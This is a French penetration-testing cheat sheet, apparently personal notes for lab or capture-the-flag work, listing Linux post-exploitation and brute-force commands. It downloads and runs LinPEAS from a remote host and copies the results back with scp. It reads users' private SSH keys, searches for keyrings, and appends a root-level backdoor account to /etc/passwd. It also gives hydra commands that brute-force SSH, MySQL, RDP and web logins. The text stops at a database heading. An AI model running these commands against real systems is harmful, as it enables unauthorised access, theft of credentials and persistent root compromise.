 ### Linux

**LinPEAS** 

	cd /tmp
    wget http://192.168.50.100/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee resultat.txt
    scp ./resultat.txt timothe@192.168.50.100:/home/timothe/resultat.txt
    less -R resultat.txt

**Clés SSH** 

    cat home/user/.ssh/id_rsa
    cat home/user/.ssh/id_dsa
    cat home/user/.ssh/id_ecdsa
    cat home/user/.ssh/id_ecdsa_sk
    cat home/user/.ssh/id_ed25519
    cat home/user/.ssh/id_ed25519_sk
    
**Divers**

    find / -name "user.keystore" 2>/dev/null
    find / -name "login.keyring" 2>/dev/null
    find / -name "pubring.kbx" 2>/dev/null
    find / -name "trustdb.gpg" 2>/dev/null
    
    
 **Injection de compte root dans /etc/passwd**
 
    openssl passwd -1 mdp123
    echo 'tim:$1$cNCh34ba$5KLgSZbxX0baUnEB66yoZ1:0:0:/root/:/bin/bash' >> /etc/passwd
    su tim
    ls /root

## Bruteforcing

### Wordlists et sites

    /usr/share/wordlists/rockyou.txt
    /usr/share/wordlists/fasttrack.txt
    /usr/share/wordlists/dirb/others/names.txt
    https://crackstation.net/
    https://www.onlinehashcrack.com/

### Commandes

    hydra -vV -l tim -P /usr/share/wordlists/rockyou.txt 192.168.100.100 -s 2222 ssh
    hydra -vV -f -l root -P /usr/share/wordlists/rockyou.txt 192.168.100.100 mysql
    hydra -vV -L /usr/share/wordlists/dirb/others/names.txt -p "Mdp123" rdp://192.168.100.100
    hydra -vV -l tim -P /usr/share/wordlists/rockyou.txt 192.168.100.100 http-post-form "/index.php:user=user&password=\^PASS\^:Invalid"
    hydra -vV -l tim -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.100.100 http-get

## Bases de données 
